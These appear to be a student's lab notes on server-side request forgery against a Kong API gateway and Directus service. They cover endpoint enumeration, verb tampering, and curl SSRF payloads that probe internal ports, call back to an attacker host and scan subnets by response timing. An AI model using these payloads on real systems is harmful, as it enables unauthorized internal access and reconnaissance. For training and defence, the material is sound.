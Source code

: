 # Server-Side Request Forgery 
## Intro to Microservices

Many development teams have moved from monolithic web apps to smaller "micro" web services.  

![image](https://user-images.githubusercontent.com/99839823/222589799-18527f6a-b236-4e2d-9654-bb79e8195965.png)

Microservices provide the basic required functionality without dependencies.  

Microservices are often run in containers and must intercommunicate. Containers and their IPs are ephemeral, so they often use DNS for discover. 

Microservices modules expose their functionality by APIs. When an API is running over HTTP or HTTPS, it is called a web service. The two most common types of web services are SOAP and RESTful.  

An API gateway is used to provide a single entry point for the microservices. 

![image](https://user-images.githubusercontent.com/99839823/222592086-d1a0cb1c-2842-4e40-9b0a-321496fbc23f.png)

The microservices usually don't have their own security controls implemented, so bypassing the API gateway can subvert these controls. 

### References: 
https://en.wikipedia.org/wiki/Microservices  
https://en.wikipedia.org/wiki/SOAP  
https://en.wikipedia.org/wiki/Representational_state_transfer#Applied_to_web_services  
https://microservices.io/patterns/apigateway.html  

## Web Service URL Formats

URLs are often parsed with regular expressions. For example, an API gateway might be configured to send any URI that starts with /user to a specific service. 
### References:
https://bestbuyapis.github.io/api-documentation/#create-your-first-query  
https://www.troyhunt.com/your-api-versioning-is-wrong-which-is/  
https://haveibeenpwned.com/API/v3#Authorisation  
https://docs.github.com/en/rest/overview/resources-in-the-rest-api  
https://apiguide.readthedocs.io/en/latest/build_and_publish/use_RESTful_urls.html  

## API Discovery via Verb Tampering   

RESTful APIs often tie functionality to HTTP request methods, or verbs. So a service might have the same URL perform different actions based on the HTTP request's method.

**HTTP Methods**  
- GET: Retrieves data or object
- POST: Creates data or object
- PUT or PATCH: Updates the data of an existing object
- DELETE: Deletes an object

This is all application specific. A RESTful web service might not perform according to the REST standard. 

Regular enumeration tools normally send GET requests. These tools might miss endpoints that do not respond to GET requests. 

### Initial Enumeration

Start with sending an HTTP request to the API gateway with *curl* 
```bash
curl -i http://apigateway:8000
```

The server responds with kong/2.2.1. Looking at google we can see that the admin API runs on port 8001.  

A connection to this is refused. We'll come back to it later. 

Lets use feroxbuster to enumerate endpoints running on port 8000
```bash
feroxbuster -u http://apigateway:8000 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

I copy and pasted the results into a text file and used the command below to clean it up.

```bash
sort endpoints.txt | cut -d" " -f1 | cut -d "/" -f2 > endpoints_sorted.txt
```

I get these results in Burp Suite intruder. Sort by status code. There are four 401 forbidden results. 

Look through all the results. There is an X-Powered-By header that indicates it is a Directus application. 

There seems to be three distinct endpoints: files, users, and render.

### Advanced Enumeration with Verb Tampering
See `route_buster.py`

We get a different result by fuzzing both get and post requests.

Extra mile: put and patch methods are added to the script, the /users/invite endpoint needs an email to make a valid request.
### References:
https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods  
https://konghq.com/kong/  
https://docs.konghq.com/gateway-oss/2.3.x/admin-api/  
https://directus.io/

## Intro to SSRF
SSRF occurs when an attacker can force an application or server to request data or a resource. 
SSRF can be especially effective against microservices, due to bypassing the security controls of a reverse proxy or an API gateway. 

### SSRF Discovery

Always check *url* parameters in an API or web form for an SSRF vulnerability. 

Send payload and try to request file from local machine:

```bash
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://192.168.119.138/ssrftest"}' http://apigateway:8000/files/import
```

check apache log on kali: 
```bash
sudo tail /var/log/apache2/access.log
```
This is an unauthenticated blind ssrf vuln

## Source Code Analysis
**Extra Mile**
Review the source code for `/users/invite`. Determine why it cannot be exploited.

**My answer:**
On line 96 the *.verify* function is used on the java web token. 

## Exploiting Blind SSRF in Directus
Since we get different results based off if the resource is there or not we can infer whether a resource exists.
We get 403 forbidden for a valid resource and 500 internal server error for a resource that doesn't exist.

Try to access ports running on target localhost: 
```bash
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://localhost:8000/"}' http://apigateway:8000/files/import
```

If Directus is running on a different server behind the gateway, then "localhost" would refer to the server running Directus, not the server running Kong API Gateway. 

Default port for directus is 8055. 
```bash
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://localhost:8055/"}' http://apigateway:8000/files/import
```

#### Exercises
1. Repeat the steps above.
2. Use the SSRF vulnerability to access a non-HTTP service running on your Kali host. What is the result? How might this be useful?
3. Try to identify more error messages. What happens if you request an invalid IP address?
#### Answers
1. Done
2. I started SSH server and checked that I could enumerate that. 
3. Invalid IPs give an appropriate error message. 

## Subnet Scanning with SSRF

Rather than scanning an entire subnet, we can try scanning for network gateways.2 Network designs commonly use a /16 or /24 subnet mask with the gateway running on the IP where the forth octet is ".1" (for example: 192.168.1.1/24 or 172.16.0.1/16).

We can check for valid hosts but closed ports with the following: 
```bash
curl -X POST -H "Content-Type: application/json" -d '{"url":"http://127.0.0.1:6666"}' http://apigateway:8000/files/import -s -w 'Total: %{time_total} microseconds\n' -o /dev/null
```

The request to a closed port is taking me about .25 - .31 seconds. 

When changing the host to a non reachable one, it takes much longer. 

Check ssrf_gaway_scanner.py to see the finished script. 

### References

https://nmap.org/book/man-host-discovery.html

## Render API Auth Bypass


